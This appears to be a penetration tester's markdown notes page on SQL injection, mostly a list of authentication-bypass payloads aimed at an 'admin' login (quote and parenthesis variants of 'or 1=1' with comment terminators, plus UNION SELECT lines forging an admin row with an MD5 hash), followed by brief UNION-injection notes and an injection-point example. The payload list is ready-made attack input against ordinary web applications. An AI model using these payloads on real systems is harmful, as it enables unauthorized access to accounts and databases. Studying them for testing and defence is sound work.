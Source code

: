 		admin') or ('1'='1
		admin') or ('1'='1'--
		admin') or ('1'='1'#
		admin') or ('1'='1'/*
		admin') or '1'='1
		admin') or '1'='1'--
		admin') or '1'='1'#
		admin') or '1'='1'/*
		1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
		admin" --
		admin" #
		admin"/*
		admin" or "1"="1
		admin" or "1"="1"--
		admin" or "1"="1"#
		admin" or "1"="1"/*
		admin"or 1=1 or ""="
		admin" or 1=1
		admin" or 1=1--
		admin" or 1=1#
		admin" or 1=1/*
		admin") or ("1"="1
		admin") or ("1"="1"--
		admin") or ("1"="1"#
		admin") or ("1"="1"/*
		admin") or "1"="1
		admin") or "1"="1"--
		admin") or "1"="1"#
		admin") or "1"="1"/*
		1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055

## UNION-based Injection
https://portswigger.net/web-security/sql-injection/union-attacks  
https://portswigger.net/web-security/sql-injection/cheat-sheet

For a UNION query to work, two key requirements must be met:

- Each SELECT statement within UNION must have the same number of columns
- The columns must also have similar data types
- The columns in each SELECT statement must also be in the same order- The individual queries must return the same number of columns.

***
If we have an answer from mysql like `Bad request` then it means that we can inject something.
Try to guess and recreate the mysql command on the backend to define the injection point (see Ippsec Redcross video)

Example:  

		select message from table where (message like '5' or dest like '<injection point>') LIMIT 10
		\\ Become  
		select message from table where (message like '5' or dest like '<injection point>') -- - ') LIMIT 10
